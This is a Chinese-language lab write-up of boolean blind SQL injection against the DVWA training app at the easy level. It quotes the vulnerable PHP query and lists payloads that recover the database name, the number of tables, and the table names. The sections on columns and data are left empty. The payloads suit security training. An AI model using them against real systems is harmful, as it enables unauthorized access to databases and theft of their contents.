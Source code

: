 ```yaml
---
{"date":"2024-07-31","tags":["安全/靶场"],"url":null,"dg-publish":true,"permalink":"/随记/DVWA-SQL盲注-easy_{2024-07-31}/","dgPassFrontmatter":true}
---
```


```table-of-contents
```
界面就一个输入框，要求输入ID
![Pasted image 20240731182251.png](/img/user/picture/Pasted%20image%2020240731182251.png)

当能在数据库中搜索到这个ID时则会返回
`User ID exists in the database.`     ->    ture
 
否则则会返回
`User ID is MISSING from the database.`   ->    false

# 布尔盲注

他的php源码查询语句如下：
```php
`$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";`
```
也就是会将id带入查询，之后如果有查询结果，则会返回第一条语句，如果查询结果为空，则会返回第二条语句
**满足布尔注入条件**



## 获取数据库名


输入  为ture
```sql
1'  and length(database())=4 #
```
则可知数据库名称长度为4

> [!NOTE] 利用函数
> `length(database())`


**接下来来逐个字母破解数据库名称**
> [!NOTE] 利用函数
> `left(database(),1)='p'`
> 或者
> `substr(database(),1,1)='p'`
> 或者
> `ascii(substr(database(),1,1))`
>> [!example] ⼆分法逐字猜解 
>>  `1' and ascii(substr(database(),1,1))>97 #`，显⽰存在，说明数据库名的第⼀个字符的ascii值⼤于 97（⼩写字母a的ascii值）； 
>>  `1' and ascii(substr(database(),1,1))<122 #`，显⽰存在，说明数据库名的第⼀个字符的ascii值⼩于 122（⼩写字母z的ascii值）； 
>>  `1' and ascii(substr(database(),1,1))<109 #`，显⽰存在，说明数据库名的第⼀个字符的ascii值⼩于 109（⼩写字母m的ascii值） 
>>  `1' and ascii(substr(database(),1,1))<103 #`，显⽰存在，说明数据库名的第⼀个字符的ascii值⼩于 103（⼩写字母g的ascii值）； 
>>  `1' and ascii(substr(database(),1,1))<100 #`，显⽰不存在，说明数据库名的第⼀个字符的ascii值不 ⼩于100（⼩写字母d的ascii值）； 
>>  `1' and ascii(substr(database(),1,1))=100 #`，显⽰存在，说明数据库名的第⼀个字符的ascii值等于100（⼩写字母d的ascii值），所以数据库名的第⼀个字符的ascii值为100，即⼩写字母d。 
>>  重复以上步骤直到得出完整的数据库名dvwa 


输入下面内容时返回为ture
```
1'  and left(database(),1)='d' # 

1'  and left(database(),2)='dv' #

1'  and left(database(),3)='dvw' #

1'  and left(database(),4)='dvwa' #
```
则可知数据库名为`dvwa`


## 猜解表名

首先来猜解表的个数
```js
1' and (select count(table_name) from information_schema.tables where table_schema=database())=1 # 
显⽰不存在 


1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 # 
显⽰存在 
```

> [!note] 
> 原理是使用count()这个函数来判断table_name这个表的数量有几个 然后后面有一个where判断来指定是当前数据库 在末尾有一个 =1 ，意思是判断表有1个，正确那么页面返回正常，错误即返回不正常

我们判断出当前数据库名下的表有两个


**猜解表名长度:**

```js
1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=9 #
显⽰存在

1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=5 #
显⽰存在
```

> [!note] 
> ```js
> length(
> 	(select table_name from information_schema.tables where table_schema=database() limit 0,1)
> 	)=9
> 
>```
> 注意：
> `length`函数的参数应该是一个字符串
> 	`limit 0,1`：限制结果，只返回第一行。这是一个偏移量为0（即从第0行开始），获取1行的限制条件。因此，子查询返回的是当前数据库中的第一个表名。

说明两个表名长度分别是5和9


下面猜解两个表名
```js
1' and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='g' # 
显⽰存在


1' and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),2)='gu' # 
显⽰存在

...


1' and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),9)='guestbook' # 
显⽰存在
```

第一个表明为guestbook


```js
1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='u' # 
显⽰存在


1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),2)='us' # 
显⽰存在

...

1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),5)='users' # 
显⽰存在
```
第一个表明为users




**下面的内容大同小异，就不再过多赘述**

## 猜解表中的字段名




## 猜解数据


